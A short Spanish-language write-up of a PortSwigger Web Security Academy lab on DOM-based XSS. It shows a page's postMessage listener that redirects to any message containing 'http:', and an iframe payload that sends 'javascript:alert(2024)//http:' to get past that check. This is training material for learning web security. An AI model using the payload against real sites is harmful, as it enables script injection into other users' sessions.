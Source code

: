 ```yaml
---
description: >-
  https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url
---
```


# Lab 2: DOM XSS using web messages and a JavaScript URL

El aplicativo web tiene en el código HTML lo siguiente:

```html
<script>
window.addEventListener('message', function(e) {
  var url = e.data;
  if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
    location.href = url;
  }
}, false);
</script>
```

Creamos un aplicativo web con el siguiente codigo:

{% code overflow="wrap" %}
```html
<iframe src="https://0af400be04bea2368159757100070042.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(2024)//http:','*')">
```
{% endcode %}

Y luego de lo anterior:

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Es importante resaltar, que el script valida o busca la existencia de la siguiente palabra: `http:`

Si esta no se encuentra presente no se desplegara el XSS.
